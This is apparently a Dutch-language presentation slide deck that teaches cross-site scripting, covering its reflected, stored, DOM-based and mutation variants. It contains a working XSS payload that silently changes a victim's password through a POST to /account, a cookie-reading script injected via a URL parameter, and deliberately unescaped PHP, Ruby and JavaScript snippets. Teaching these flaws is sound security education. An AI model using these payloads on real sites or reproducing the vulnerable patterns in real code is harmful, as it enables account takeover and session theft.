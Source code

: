 !SLIDE image
# Werking #

![rendering](rendering.jpg)

    @@@php
    <i><?php print $email ?></i>

!SLIDE code

    @@@html
    ber@berk.es</i><script>
    var xhr = new XMLHttpRequest();
    xhr.open("POST", "/account", true);
    xhr.setRequestHeader("Content-type", "application/x-www-form-urlencoded");
    xhr.send("password=compromised");
    </script><i>

!SLIDE bullets incremental
# Werking #

* Injecteer scripts of andere ongewenste content.

!SLIDE center
<iframe width="960" height="720" src="//www.youtube.com/embed/dQw4w9WgXcQ?autoplay=0" frameborder="0" allowfullscreen></iframe>

!SLIDE bullets incremental
# Soorten #

* Reflected, None-persistent XSS
* Stored, Persistent XSS
* DOM based XSS
* mXSS of mutation XSS

!SLIDE
# Reflected #

    @@@ruby
    "Please check the" +
    "confirmation at %{email}"

!SLIDE
# Stored #

    @@@ruby
    msg = "Users with changed emails:<br>"
    User.updated(2.days.ago).each do |user|
      msg += "* %{user.email}<br>"
    end

!SLIDE
# DOM based #

    @@@HTML
    <select><script>
    document.write("<OPTION value=1>"
      +document.location.href.substring(
        document.location.href.indexOf("default=")
      +8)+"</OPTION>");
    document.write("<OPTION value=2>English</OPTION>");
    </script></select>

Normaal aangeroepen met: `http://www.some.site/page.html?default=French`

Nu aangeroepen met: `http://www.some.site/page.html?default=<script>alert(document.cookie)</script>`

!SLIDE image
# mXSS mutation XSS #
![Einde der tijden](laatste_oordeel.jpg)

* Gebruikt innerHTML om ge-escapete code te ont-escapen.
* Alle Browserbouwers gingen al de mist in.
* Extra voorzichtig met WYSIWYG-editors, SVG, MathML en CDATA.
